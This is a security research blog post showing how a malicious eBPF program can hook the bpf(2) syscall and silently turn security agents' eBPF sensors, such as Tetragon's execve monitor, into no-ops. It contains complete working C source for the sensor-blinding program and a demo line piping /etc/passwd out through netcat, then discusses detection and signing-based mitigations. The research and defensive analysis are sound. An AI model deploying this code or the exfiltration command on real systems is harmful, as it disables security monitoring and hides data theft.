

## eBPF: A Case of Self-Sabotage

### Introduction

In recent years, the Extended Berkeley Packet Filter (eBPF) has become an essential tool in the Linux kernel for performance monitoring, networking, and security. As eBPF becomes more mainstream, security vendors are turning away from kernel drivers and towards eBPF for sensors and enforcement components.

eBPF was invented as a performance observability tool, so the integrity of eBPF programs wasn't originally considered important. After all, if a sensor misses some performance data, it isn't the end of the world. However, as eBPF is increasingly finding its way into security agents, the consequences of eBPF attacks have to be reconsidered. If an attacker were somehow able to modify an eBPF program before or after it has been loaded into kernel memory, they could DoS the system, hide their tracks or create false telemetry, among other things.

This blog post explores a fascinating attack vector where the eBPF kernel subsystem is used to sabotage its own functionality by hooking and abusing the kernel component of the `bpf(2)` system call. By placing hooks here, malware is able to modify eBPF programs after they have been submitted by userspace but before they have been loaded into kernel memory. An attack like this is difficult to detect because all eBPF programs will still load without error.

The conclusion reached at the end of this reserach is that eBPF programs need to be protected from modification. They are similar to kernel modules in that they can alter the flow of kernel code paths and therefore should be protected by similarly strong controls such as cryptographic signing and verification.

### Understanding eBPF and `bpf(2)`

eBPF allows users to run sandboxed programs in kernel space. Though these programs do not have access to all kernel functions, they can perform a variety of tasks ranging from tracing system calls to filtering network packets. eBPF programs are encoded in a bytecode-like language and are loaded into the kernel via the `bpf(2)` system call.

The `bpf(2)` system call provides userspace with an interface to load, manipulate, and manage eBPF programs and maps:

```c
#include <linux/bpf.h>

int bpf(int cmd, union bpf_attr *attr, unsigned int size);
```

 When a user wants to load an eBPF program, they provide a pointer to a `union bpf_insn`, which contains the intructions for the eBPF virtual machine to execute.

### The Role of `union bpf_attr`

`union bpf_attr` plays a crucial role in conveying parameters about eBPF programs from userspace to the kernel. This structure is used by the `bpf(2)` system call to pass various attributes and parameters related to eBPF programs and maps. Relevant to this discussion is how `union bpf_attr` is used for program loading. When loading an eBPF program, the `bpf_attr` union contains information such as the pointer to the array of instructions (`insns`), the number of instructions (`insn_cnt`), and the type of program (`prog_type`).

Here's a simplified version of the `struct bpf_attr` definition:

```c
#define BPF_OBJ_NAME_LEN 16

union bpf_attr {
    struct {
	// anonymous struct used by BPF_PROG_LOAD command
        __u32 prog_type;
        __u32 insn_cnt;
        __u64 insns;
        __u64 license;
        __u32 log_level;
        __u32 log_size;
        __u64 log_buf;
        __u32 kern_version;
        __u32 prog_flags;
	char prog_name[BPF_OBJ_NAME_LEN];
    };
    // Other command-specific structs
};
```

This structure allows userspace applications to convey a wide range of parameters and configurations to the kernel when performing eBPF operations. The versatility and flexibility of struct `bpf_attr` are key to the powerful capabilities of eBPF.

### The Attack: Rewriting bpf Programs as No-Op Slides
In this attack, the adversary hooks the `sys_bpf` kernel function to alter the behavior of eBPF programs. `sys_bpf` is the kernel function used to service userspace `bpf(2)` system calls. By doing so, they can effectively nullify specific eBPF programs by rewriting their instructions to be no-ops.

Here’s a rough outline of how it works:

1. Hook `sys_bpf`: Place a hook on `sys_bpf` via the `sys_enter` tracepoint. Other attachment types are possible, but tracepoints have wider support.

2. Intercept eBPF Programs: When an eBPF program is loaded, our tracepoint intercepts the user mode pointer that contains the `struct bpf_insn` array.

3. Modify User Instructions: The pointer is overwritten via `bpf_probe_write_user` to replace the original eBPF instructions with effective no-op instructions. This is typically done by altering the code field in struct bpf_insn to `BPF_ALU | BPF_MOV | BPF_K`, which represents a move immediate instruction that does nothing.

4. Target Specific Programs: To avoid detection, the attacker can target individual programs by matching on the `insn_cnt` field, which indicates the number of instructions in the eBPF program. By comparing this value, the attacker can selectively modify only certain programs. Loaded programs can be listed via `bpftool prog list`.

### Technical Breakdown

Let’s dive into an example of how this attack could be implemented. Let's target the Isovalent security agent, Tetragon.

#### Finding a Target Program

After starting Tetragon, we see the following bpf program is loaded:

```shell
> bpftool prog list
tracepoint  name event_execve  tag bf21fa49f817a040  gpl
	loaded_at 2024-07-19T11:36:08-0400  uid 0
	xlated 16456B  jited 10176B  memlock 20480B  map_ids 35,8,9,11,31,13,14,32,33,7,12
	btf_id 89
```

`event_execve` seems like a good target; let's target it by finding out how many instructions are in the program:

```shell
> sudo bpftool prog dump xlated tag bf21fa49f817a040 | tail -1

 15874: (95) exit
```
 
The number before the colon (`15874`) is the instruction count. We can now write a bpf program specifically targeting Tetragon `event_execve` programs. *Depending on optimizations, this number doesn't always exactly match and sometimes a `+`/`-` tolerance needs to be added*.

Programs can also be targeted by `prog_name`, but this is limited to `BPF_OBJ_NAME_LEN` characters, which may not be enough to resolve all cases.

```c
#include "vmlinux.h"
#include "bpfhijack.h"
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>

/* Instruction count of Tetragon event_execve */
#define TARGET_BPF_INSNS 15874

#define BPF_ALU64 0x07
#define BPF_EXIT 0x95

#ifndef BPF_MOV
#define BPF_MOV 0xb0
#endif

#ifndef BPF_K
#define BPF_K 0x00
#endif

char LICENSE[] SEC("license") = "Dual BSD/GPL";

SEC("tp/syscalls/sys_enter_bpf")
int handle_bpf_enter(struct trace_event_raw_sys_enter *ctx)
{
        int cmd = ctx->args[0];
        size_t insns_cnt = 0;

        if (cmd == BPF_PROG_LOAD) {
                /* See how many bpf instructions userspace intended to load */
                union bpf_attr uattr;
                bpf_probe_read_user(&uattr, sizeof(union bpf_attr), (void *)ctx->args[1]);

                u32 insn_cnt = uattr.insn_cnt;
                // Is this our target program?
                if (insn_cnt != TARGET_BPF_INSNS) {
                        return 0;
                }

		struct bpf_insn nop_insn = {
			.code = BPF_ALU64 | BPF_MOV | BPF_K,
			.dst_reg = BPF_REG_0,
			.src_reg = BPF_REG_0,
			.off = 0,
			.imm = 0
		};

                // Iterate over the instructions passed by userspace and convert them to no-ops.
                for (__u32 i = 0; i < TARGET_BPF_INSNS; i++) {
                        // The last instruction has to be a jmp or exit
                        if (i == insn_cnt-1) {
                                nop_insn.code = BPF_EXIT;
                        }

			// Overwrite the user bpf_insn with a no-op instruction
                        bpf_probe_write_user(&((struct bpf_insn *)uattr.insns)[i], &nop_insn, sizeof(nop_insn));
                }
        }

        return 0;
} 
```

Let's test it out! First, execute some commands without our probe installed. Make sure Tetragon is running first, then start `tetra` to view events in real time:


```shell
> sudo tetra getevents --output compact
```

In another window, run a command that exfiltrates sensitive data:
```shell
> cat /etc/passwd | nc 127.0.0.1 8080
```

Returning back to the `tetra` window, there will be events for the commands just executed:

```shell
> sudo tetra getevents --output compact
🚀 process  /usr/bin/nc 127.0.0.1 8080
🚀 process  /usr/bin/cat /etc/passwd
💥 exit     /usr/bin/cat /etc/passwd 0
💥 exit     /usr/bin/nc 127.0.0.1 8080 1
```

Let's load our eBPF program to intercept Tetragon's execution events and convert them to no-ops.

Stop Tetragon, load the program, restart Tetragon and run the same exfiltration command:

```shell
> cat /etc/passwd | nc 127.0.0.1 8080
```

In the `tetra` window, we only process `exit` events! No execution events are present.

```
> sudo tetra getevents --output compact
💥 exit     /usr/bin/bash  0
💥 exit     /usr/bin/bash  1
```

### Impact

While we're focusing on bypassing Tetragon in this example, all security agent using eBPF are vulnerable to this attack.

#### Sysdig/Falco

We disable the Falco probe responsible for detecting `openat_x` events, allowing our exfiltration to proceed undetected.




### Detection

Detection is made more difficult because user eBPF probe insertions will still succeed, but the programs themselves will be completely inert. 

Manually dumping the instructions of the hijacked exevce_event would indeed reveal no-ops are present:

```
> bpftool prog dump xlated tag c1258805115d7c8c |tail -10
; data->mnt = parent;
 15866: (b7) r0 = 0
 15867: (b7) r0 = 0
 15868: (b7) r0 = 0
; probe_read(&data->vfsmnt, sizeof(data->vfsmnt),
 15869: (b7) r0 = 0
 15870: (b7) r0 = 0
 15871: (b7) r0 = 0
 15872: (b7) r0 = 0
 15873: (95) exit
```

This is impractical and not scalable, though.

### Mitigation / Future Work

`bpf_probe_write_user` is the helper that's used to overwrite the contents of userspace memory in the eBPF programs. This function is considered dangerous, and distributions may benefit from disabling it altogether. As of this writing, the latest version of Ubuntu (Noble) still has it enabled by default.

Ideally, trusted eBPF programs should be protected by hardware, as other secure programs and secrets are, using the Trusted Platform Module (TPM). Keys could be loaded into the Linux bootloader, similar to how Secureboot installs keys, and then used by the kernel to decrypt and load the programs, ensuring they have not been altered.

 
